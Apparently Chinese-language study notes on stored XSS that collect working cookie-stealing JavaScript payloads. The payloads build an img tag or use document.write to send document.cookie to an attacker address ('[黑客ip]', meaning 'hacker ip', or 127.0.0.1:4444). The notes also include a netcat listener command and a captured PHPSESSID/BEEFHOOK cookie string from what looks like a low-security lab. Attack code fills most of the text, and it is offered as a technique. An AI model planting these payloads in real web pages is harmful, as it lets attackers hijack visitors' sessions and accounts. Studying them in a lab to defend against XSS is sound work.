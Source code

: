```
<script>var img = document.createElement("img");img.src="http://127.0.0.1:4444/a?"+escape(document.cookie);</script>

<script>var img = document.createElement("img");img.src="http://[黑客ip]/a?"+escape(document.cookie);</script>
```



方法二：直接写入文件+nc

```
<script>
document.write('<img src="http://[黑客ip]/?'+document.cookie+'"/> ');
</script>
```



原理：前端页面上写入一个img标签即表示图片，图片连接了黑客的4444端口，然后访问前端的用户会自动通过`?`传参传入用户的cookie值，并使用http协议发送给nc

```
document.cookie
获取用户所在网站的cookie
```

用户访问后，可以在nc上看到：

```
BEEFHOOK=AREs541oCaZqmaEhmEu8FKmaX7baBAFUMp2ZapHkFhcDuYwsDfAhSSCcBQYdTN3mCMUrBdZdG7dgWZ0H;%20PHPSESSID=pp6ei8ut8gkmntp2t4dv7vo026;%20security=low
```



啊d注入工具——cookie的测试工具



```
如果某天不能用外网，也不能用kali

存储型xss最重要的是获取用户的cookie！！！！！！！！！！

nc -lvp 4444 使用nc监听4444端口

<script>var img = document.createElement("img");img.src="http://127.0.0.1:4444/a?"+escape(document.cookie);</script>

<script>
document.write('<img src="http://127.0.0.1:4444/?'+document.cookie+'"/> ');
</script>

document.cookie
获取用户所在网站的cookie

用户访问后，可以在nc上看到
BEEFHOOK=AREs541oCaZqmaEhmEu8FKmaX7baBAFUMp2ZapHkFhcDuYwsDfAhSSCcBQYdTN3mCMUrBdZdG7dgWZ0H;%20PHPSESSID=pp6ei8ut8gkmntp2t4dv7vo026;%20security=low
```
